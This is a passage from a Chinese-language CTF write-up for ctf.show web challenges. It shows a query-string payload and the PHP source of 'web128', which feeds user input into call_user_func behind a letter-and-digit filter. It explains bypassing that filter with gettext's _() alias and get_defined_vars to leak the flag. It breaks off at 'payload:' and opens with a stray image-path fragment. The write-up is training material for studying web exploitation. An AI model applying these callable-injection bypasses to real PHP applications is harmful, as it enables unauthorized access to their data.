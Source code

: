 payload:

```
?ctf%20show=ilove36d
```



## web128

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}



function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} NULL
```

知识点：gettext拓展的使用

在开启该拓展后 _() 等效于 gettext()

```php
<?php
echo gettext("phpinfo");
结果  phpinfo

echo _("phpinfo");
结果 phpinfo
```

所以 `call_user_func('_','phpinfo')` 返回的就是phpinfo

因为我们要得到的flag就在flag.php中，所以可以直接用get_defined_vars

```php
get_defined_vars ( void ) : array
此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。
```

![](https://raw.githubusercontent.com/npfs06/Images/main/img/20210223102205.png)

payload:
